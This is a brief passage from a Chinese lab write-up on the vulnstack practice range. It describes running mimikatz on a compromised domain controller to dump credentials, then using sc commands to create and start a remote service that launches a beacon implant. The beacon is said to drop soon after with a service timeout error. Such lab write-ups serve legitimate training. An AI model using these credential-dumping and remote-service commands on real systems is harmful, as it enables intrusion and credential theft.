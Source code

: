 

域控上线后运行mimikatz获取用户凭据

![image-20231220180113223](vulnstack靶场系列四/image-20231220180113223.png)

​		

此时我尝试使用SC创建系统服务来执行beacon，虽然beacon成功上线了，但是很快就会掉，随即弹出报错：”服务没有及时响应启动或控制请求“

```
sc \\WIN-ENS2VR5TR3N create "MyBeacons" binpath= "C:\\beacon_x64.exe"
sc \\WIN-ENS2VR5TR3N start MyBeacons
```

![image-20231220205819148](vulnstack靶场系列四/image-20231220205819148.png)
